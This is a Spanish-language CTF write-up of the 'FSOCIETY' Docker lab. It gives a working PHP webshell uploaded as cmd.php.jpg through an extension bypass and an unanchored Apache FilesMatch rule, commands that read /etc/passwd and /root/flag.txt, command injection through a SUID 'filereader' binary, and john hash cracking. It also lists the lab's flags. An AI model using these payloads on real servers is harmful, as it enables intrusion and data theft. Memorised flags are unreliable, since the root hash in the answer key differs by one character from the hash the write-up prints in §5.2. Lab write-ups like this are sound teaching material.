# FSOCIETY — Writeup de Auditoría de Seguridad (CTF)

| Campo | Valor |
|---|---|
| **Laboratorio** | FSOCIETY — *E Corp Infiltration* |
| **Plataforma** | Whoami-Labs |
| **Dificultad** | Difícil ★★★★★☆☆☆ (5 puntos) |
| **Categoría** | SUID & Sudo · Web upload |
| **Autor del writeup** | chifay |
| **Fecha** | 22/10/2026 |
| **Objetivo** | `172.17.0.2` (contenedor Docker) |
| **Atacante** | Kali Linux — `172.17.0.1` |
| **Hostname del objetivo** | `fsociety` |
| **Stack del objetivo** | Ubuntu 18.04.6 LTS · Apache 2.4.29 · PHP 7.2.24 · OpenSSH 7.6p1 |
| **Flag user** | `FSOCIETY{pwn_k1t_3_c0rp_0wn3d}` |
| **Flag root (validada)** | `phillip_price:$6$hg7hrQCqa53OdOo$1YkvYxeBnOTCltn7lRMKqOyhUWIWTA/6yI7JjsCd9os68hvEhJQrwyDUlAr9if0j2hIj8BDIXfmp0JEUZ4i2r0` |
| **Estado** | Validada por `startlab.sh` — captura del usuario, 2026-10-22 08:47:36 -0600 |
| **Vector de entrada** | Upload `.php.jpg` + `FilesMatch ".+\.php"` sin anclar |
| **Ruta completa** | Upload PHP → `www-data` → wordlist oculta → SUID `filereader` → hash de `/root/flag.txt` → flag root |

> **Nota imprescindible sobre las dos flags.** El laboratorio define una **flag user** (accesible tras el acceso inicial) y una **flag root** (accesible tras la escalada). La flag user es `FSOCIETY{pwn_k1t_3_c0rp_0wn3d}`; la flag root es el **contenido literal** de `/root/flag.txt`, que no es una cadena `{...}` sino un hash SHA-512crypt. El validador local `startlab.sh` solo comprueba la flag root, por eso **rechaza la flag user** y **acepta el hash**. La captura de la validación correcta está en `docs/img/13-validacion-flag.png` y se analiza en §6.

> **Respuesta rápida:** la cadena que pasa `startlab.sh` es el **hash SHA-512crypt completo** que figura en la cabecera y en §6.2 (contenido literal de `/root/flag.txt`); `FSOCIETY{pwn_k1t_3_c0rp_0wn3d}` es la flag user y el validador local no la comprueba.

---

## 1. Resumen ejecutivo

FSOCIETY expone únicamente dos puertos: **22/tcp (SSH)** y **80/tcp (Apache)**. La web es una maqueta estática de E Corp con un único formulario interactivo, `/upload.php`, que dice aceptar JPG, PNG, GIF, PDF y TXT.

La cadena de compromiso tiene cuatro eslabones:

1. **Upload bypass**: `upload.php` valida solo la **última extensión** con `pathinfo()`. Un fichero llamado `cmd.php.jpg` pasa la whitelist porque termina en `.jpg`.
2. **Ejecución de PHP**: Apache tiene al final de `apache2.conf` un `<FilesMatch ".+\.php">` **sin anclar al final**. La expresión coincide con cualquier nombre que *contenga* `.php`, incluido `cmd.php.jpg`, y lo ejecuta con `mod_php`. Resultado: **RCE como `www-data`**.
3. **Enumeración**: el home de `tyrell` contiene `.tmp` (0644, 3 412 bytes), una wordlist de 240 líneas con la **flag user** en la última línea. Es legible por cualquier usuario local.
4. **Escalada SUID**: `/usr/local/bin/filereader` es SUID root, no está *stripped* y hace `setuid(0); setgid(0); system("cat %s ...")`. Permite **leer ficheros de root** y, además, **inyectar comandos**. Con él se lee `/root/flag.txt`.

El contenido de `/root/flag.txt` es un hash SHA-512crypt de `phillip_price`. Al crackearlo con la wordlist de `tyrell` se obtiene la flag user, lo que confirma el valor. La **flag root que valida el laboratorio** es el propio hash, tal como demuestra la captura de `startlab.sh`: la cadena `FSOCIETY{...}` es rechazada y el hash es aceptado con el mensaje «¡Felicitaciones! Has infiltrado E Corp.».

| # | Etapa | Vector | De → A |
|---|---|---|---|
| 1 | Acceso inicial | Upload `.php.jpg` + `FilesMatch` sin anclar | anónimo → `www-data` |
| 2 | Enumeración | `/home/tyrell/.tmp` (0644) | `www-data` → flag user |
| 3 | Escalada | SUID `filereader` (`setuid(0)` + `system("cat %s")`) | `www-data` → `root` |
| 4 | Flag root | Lectura de `/root/flag.txt` + validación del hash | `root` → flag root |



---

## 2. Reconocimiento

### 2.1 Puertos y versiones

```bash
nmap -Pn -p- --min-rate 5000 172.17.0.2
nmap -Pn -sV -sC -p22,80 172.17.0.2
```

| Puerto | Estado | Servicio | Versión |
|---|---|---|---|
| 22/tcp | open | SSH | OpenSSH 7.6p1 Ubuntu-4ubuntu0.7 |
| 80/tcp | open | HTTP | Apache/2.4.29 (Ubuntu) |

El resto de los 65 535 puertos TCP está cerrado. No hay FTP, SMB ni base de datos expuesta: **toda la superficie inicial es web**.



### 2.2 Web — E Corp

```bash
curl -si http://172.17.0.2/
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt \
  -x php,txt,html,bak,zip -t 40
```

| Ruta | Resultado |
|---|---|
| `/` | `index.html` estático de E Corp (6 204 B) |
| `/upload.php` | Portal de empleados: formulario de subida |
| `/uploads/` | **Listado de directorios** y permisos `0777` |
| `/css/style.css` | Hoja de estilos |
| `/server-status` | 403 |
| `/.htaccess`, `/.htpasswd` | 403 |

La portada solo enlaza a `upload.php`; no hay login, API ni parámetros dinámicos aparte del formulario. El portal dice:

```
Allowed file types: JPG, PNG, GIF, PDF, TXT
```

No hay autenticación, CSRF, límite de tamaño ni validación MIME.



### 2.3 El formulario de subida

La lógica relevante de `upload.php` es:

```php
$file_name = $_FILES['file']['name'];
$file_ext  = strtolower(pathinfo($file_name, PATHINFO_EXTENSION));
$allowed_exts = array('jpg', 'jpeg', 'png', 'gif', 'pdf', 'txt');

if (in_array($file_ext, $allowed_exts)) {
    $destination = $upload_dir . basename($file_name);
    move_uploaded_file($file_tmp, $destination);
}
```

- Solo se comprueba la **última extensión**.
- No se comprueba el tipo MIME real (`finfo`), ni el contenido, ni las dimensiones.
- El nombre se conserva (solo se aplica `basename`), por lo que el atacante controla la extensión compuesta.
- El directorio `/var/www/html/uploads/` es `0777` y tiene listado habilitado.

---

## 3. Acceso inicial — bypass de extensión + Apache

### 3.1 La validación débil

Un fichero `shell.php` es rechazado:

```
alert alert-error">Invalid file type. Allowed: jpg, jpeg, png, gif, pdf, txt
```

Pero el mismo contenido renombrado a `shell.php.jpg` pasa la whitelist porque `pathinfo()` devuelve `jpg`:

```
alert alert-success">File uploaded successfully: shell.php.jpg
```



### 3.2 La misconfiguración de Apache

Al final de `/etc/apache2/apache2.conf` hay un bloque añadido por el laboratorio:

```apache
<FilesMatch ".+\.php">
    SetHandler application/x-httpd-php
</FilesMatch>
```

La expresión regular **no está anclada al final** (`\.php$`). Apache la aplica al nombre completo del fichero, así que `cmd.php.jpg` coincide porque **contiene** `.php` en medio. El fichero se entrega a `mod_php` y se ejecuta, aunque su última extensión sea `.jpg`.

Esta es la combinación letal:

| Capa | Comprobación | Resultado |
|---|---|---|
| PHP (`upload.php`) | `pathinfo()` → `jpg` | ✅ acepta |
| Apache (`FilesMatch`) | regex `.+\.php` sin `$` | ✅ ejecuta como PHP |

### 3.3 RCE como `www-data`

El payload utilizado es mínimo:

```php
<?php
if (isset($_GET['c'])) {
    system($_GET['c']);
}
?>
```

Se sube como `cmd.php.jpg` y se invoca:

```bash
curl -s -F 'file=@cmd.php.jpg;type=image/jpeg' http://172.17.0.2/upload.php
curl -s 'http://172.17.0.2/uploads/cmd.php.jpg?c=id'
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



El script reproducible es `exploits/upload_shell.sh`; la prueba de concepto completa del bypass está en `exploits/test_upload_bypass.sh` y su salida en `recon/upload_bypass.txt`.

---

## 4. Enumeración post-explotación

### 4.1 Sistema y usuarios

```bash
curl -s '.../cmd.php.jpg?c=id; hostname; uname -a; cat /etc/passwd'
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
fsociety
Linux fsociety 7.1.5+kali-amd64 ...   # kernel del host
Ubuntu 18.04.6 LTS (Bionic Beaver)
```

> El contenedor comparte el kernel del host de Kali; el **userland** del objetivo es Ubuntu 18.04.6 LTS. Por eso `uname -a` muestra el kernel de Kali y `/etc/os-release` muestra Ubuntu.

Usuarios con shell:

```
elliot:x:1000:1000::/home/elliot:/bin/bash
darlene:x:1001:1001::/home/darlene:/bin/bash
angela:x:1002:1002::/home/angela:/bin/bash
tyrell:x:1003:1003::/home/tyrell:/bin/bash
```



### 4.2 La pista del README y la wordlist de tyrell

En `/home/elliot/README.txt` hay una pista deliberada:

```
Remember: Enumeration is key. Check hidden files in user directories.
```

Al listar los homes aparece un fichero oculto en el de `tyrell`:

```
-rw-r--r-- 1 tyrell tyrell 3412 Feb 10  2026 /home/tyrell/.tmp
```

Es **world-readable** (0644) y contiene 240 líneas. Al final está la flag user:

```
fs0c13ty_fl4g_0wn3d}
FSOCIETY{pwn_k1t_3_c0rp_0wn3d}
```

La wordlist completa se conserva en `wordlists/tyrell_tmp.txt` y en `loot/04_tyrell_tmp.txt`.



### 4.3 Inventario SUID

```bash
find / -perm -4000 -type f 2>/dev/null | sort
```

Además de los binarios estándar (`su`, `mount`, `passwd`, `sudo`, `pkexec`), aparece uno propio del laboratorio:

```
-rwsr-xr-x 1 root root 8520 Feb 10  2026 /usr/local/bin/filereader
```

`file` y `strings` lo delatan:

```
/usr/local/bin/filereader: setuid ELF 64-bit LSB shared object ... not stripped
setuid
setgid
system
File Reader v1.0
Usage: %s <filename>
cat %s 2>/dev/null || echo 'File not found'
```

La lógica reconstruida es:

```c
setuid(0);
setgid(0);
snprintf(command, sizeof(command), "cat %s 2>/dev/null || echo 'File not found'", argv[1]);
system(command);
```

Dos problemas en cuatro líneas:

1. **Lectura arbitraria de ficheros con privilegios de root** (no hay validación de ruta).
2. **Inyección de comandos**: `argv[1]` se concatena sin comillas dentro de `system()`.



---

## 5. Escalada a root — SUID `filereader`

### 5.1 Confirmación de privilegios

```bash
/usr/local/bin/filereader "/etc/hostname; id"
```

```
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

El binario hace `setuid(0)` y `setgid(0)` antes de invocar `system()`, por lo que **no hay drop de privilegios**. El grupo suplementario `33(www-data)` se conserva, pero el UID efectivo es 0.

### 5.2 Lectura de la flag root

```bash
/usr/local/bin/filereader "/etc/hostname; cat /root/flag.txt"
```

```
phillip_price:$6$hg7hrQCqa53OdOo/$1YkvYxeBnOTCltn7lRMKqOyhUWIWTA/6yI7JjsCd9os68hvEhJQrwyDUlAr9if0j2hIj8BDIXfmp0JEUZ4i2r0
```

`/root/flag.txt` tiene permisos `0600`, 121 bytes y pertenece a `root`. El SUID permite leerlo sin ser root.



### 5.3 Por qué no hizo falta `sudo`

`sudo` está instalado, pero:

- `/etc/sudoers` solo concede privilegios a `root`, `%admin` y `%sudo`.
- El grupo `sudo` existe pero está vacío (`sudo:x:27:`); el grupo `admin` **no existe**, así que la entrada `%admin` es inerte.
- **Ningún usuario interactivo pertenece a `sudo`**.
- `sudo -n -l` responde `sudo: a password is required`.

Es un señuelo: el camino real es el binario SUID propio. En §7 se detallan los vectores laterales.

---

## 6. Las dos flags y la validación

### 6.1 Flag user

La flag user es la última línea de `/home/tyrell/.tmp`:

```
FSOCIETY{pwn_k1t_3_c0rp_0wn3d}
```

Es accesible con el webshell de `www-data`, sin escalar privilegios. Si la plataforma separa las flags en *user* y *root*, este es el valor de **flag user**.

### 6.2 Flag root: el contenido de `/root/flag.txt`

La flag root **no es una cadena `{...}`**. Es el contenido literal de `/root/flag.txt`, un hash SHA-512crypt:

```
phillip_price:$6$hg7hrQCqa53OdOo$1YkvYxeBnOTCltn7lRMKqOyhUWIWTA/6yI7JjsCd9os68hvEhJQrwyDUlAr9if0j2hIj8BDIXfmp0JEUZ4i2r0
```

El hash se crackea con la wordlist de `tyrell`:

```bash
john --format=sha512crypt --wordlist=loot/04_tyrell_tmp.txt loot/15_hash_para_john.txt
```

```
FSOCIETY{pwn_k1t_3_c0rp_0wn3d} (phillip_price)
1g 0:00:00:00 DONE ...
```

El plaintext coincide con la flag user. Es decir, el laboratorio usa la misma cadena para ambas cosas: la flag user está en la wordlist y el hash de root la confirma. La diferencia es **dónde se obtiene cada una** y **qué valida el script local**.



### 6.3 Por qué la flag `{...}` no pasa `startlab.sh`

`startlab.sh` lee la flag directamente del contenedor:

```bash
ACTUAL_FLAG=$(docker exec $CONTAINER_NAME cat /root/flag.txt)
...
if [ -n "$input_flag" ] && [[ "$input_flag" == "$ACTUAL_FLAG" ]]; then
    echo "¡Felicitaciones! Has infiltrado E Corp."
```

Como `/root/flag.txt` contiene el hash, la comparación exacta solo acepta el hash. La cadena `FSOCIETY{...}` **no coincide** y el script responde «Flag incorrecta».

La captura de la validación correcta lo muestra con claridad:



- Primero se introduce `FSOCIETY{pwn_k1t_3_c0rp_0wn3d}` → **Flag incorrecta (1/5)**.
- Después se introduce el hash completo → **«¡Felicitaciones! Has infiltrado E Corp.»**.
- Fecha y hora: **2026-10-22 08:47:36 -0600**.

La prueba de candidatos está en `loot/validation_candidates.txt`:

| Candidato | Resultado contra `startlab.sh` |
|---|---|
| `FSOCIETY{pwn_k1t_3_c0rp_0wn3d}` | ❌ FAIL |
| `fsociety{pwn_k1t_3_c0rp_0wn3d}` | ❌ FAIL |
| `fs0c13ty{pwn_k1t_3_c0rp_0wn3d}` | ❌ FAIL |
| Hash sin prefijo `phillip_price:` | ❌ FAIL |
| **Hash completo** `phillip_price:$6$...` | ✅ **PASS** |

### 6.4 Qué enviar en la plataforma

| Campo | Valor |
|---|---|
| **Flag user** | `FSOCIETY{pwn_k1t_3_c0rp_0wn3d}` |
| **Flag root** | `phillip_price:$6$hg7hrQCqa53OdOo$1YkvYxeBnOTCltn7lRMKqOyhUWIWTA/6yI7JjsCd9os68hvEhJQrwyDUlAr9if0j2hIj8BDIXfmp0JEUZ4i2r0` |

Si la plataforma tiene dos campos separados, usa la primera en *user* y la segunda en *root*. Si solo hay un campo —como el validador local—, usa la **flag root** (el hash). Esta distinción es la causa de que la flag `{...}` no pasara la validación.

> Si la plataforma rechazara el hash y exigiera una cadena `{...}` para el campo root, estaríamos ante una inconsistencia del paquete local: en todo el filesystem **no aparece otra flag con formato `{...}`** que la flag user de `.tmp`. La evidencia del contenedor y de `startlab.sh` es el hash.

